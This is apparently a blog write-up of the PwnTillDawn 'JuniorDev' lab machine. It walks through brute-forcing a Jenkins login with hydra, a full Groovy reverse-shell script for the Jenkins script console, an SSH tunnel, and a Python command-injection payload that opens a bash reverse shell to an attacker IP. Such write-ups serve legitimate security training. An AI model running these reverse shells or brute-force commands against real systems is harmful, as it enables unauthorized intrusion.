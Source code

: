 ```yaml
---
title: "PwnTillDawn - JuniorDev"
author: Nasrallah
description: ""
date: 2022-09-21 00:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, jenkins, hydra, bruteforce, commandinjection, python, tunneling]
img_path: /assets/img/pwntilldawn/juniordev
---
```


---


# **Description**

Hello hackers, I hope you are doing well. We are doing [JuniorDev](https://online.pwntilldawn.com/Target/Show/63) from [PwnTillDawn](https://online.pwntilldawn.com/). The target is running a web server on a non standard port. We found a login page that we brute force to get in and then run a command for a reverse shell. Then we find another web server running internally so we use an ssh tunnel to access it. We exploit a command injection vulnerability to get root. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22 open running openssh.

We don't have any credentials and the version of ssh doesn't have any vulnerabilities.

Let's scan all ports this time with `sudo nmap --min-rate 5000 -p- 10.150.150.38`

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.094s latency).
Not shown: 64506 closed tcp ports (reset), 1027 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
30609/tcp open  unknown
```

We found another service on a high port, let's run a service scan on that port.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.27.v20200227)
```

The port is running a jetty web server.

## Web

Let's navigate to the web page on [http://10.150.150.38:30609/](http://10.150.150.38:30609/)

![](1.png)

We found a login page for Jenkins.

I tried some default credentials but no luck with that. Let's brute force the login with hydra, but first we need to intercept a login request to see what parameters we need to set.

![](2.png)

Now let's craft our command.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Let's run the command.

![](3.png)

Got the password.

# **Foothold**

Let's login to Jenkins.

![](4.png)

Great! Now we need to get a shell. We can do that by going to `Manage Jenkins` -> `Script Console` and enter the following command.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

Now setup a listener with `nc -lvnp 9001` and run the command.

![](6.png)

We got the shell.

# **Privilege Escalation**

Let's do some basic enumeration.

![](7.png)

We found a ssh key. Let's connect with it.

![](8.png)

I uploaded a copy of linpeas and after running it i got this.

![](9.png)

We found a service listening on port 8080 and we can't access it.

We are gonna use ssh tunneling in order to access it.

Run the following command from the attacker machine.

```bash
ssh -L 8000:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN
```

Now navigate to `127.0.0.1:8000`.

![](10.png)

We find an application that takes two numbers from us and adds them together.

We see in the title of the page `Jr.dev py example`. Which means this is a python application hens the `py` in the title.

Searching for python command injection, i found this [article](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1) which had the following command that would give us a reverse shell.

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.10/9999 0>&1"')#

```

Now setup a listener and put the payload above in one of the input fields and click calculate.

![](11.png)

Great! We got a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
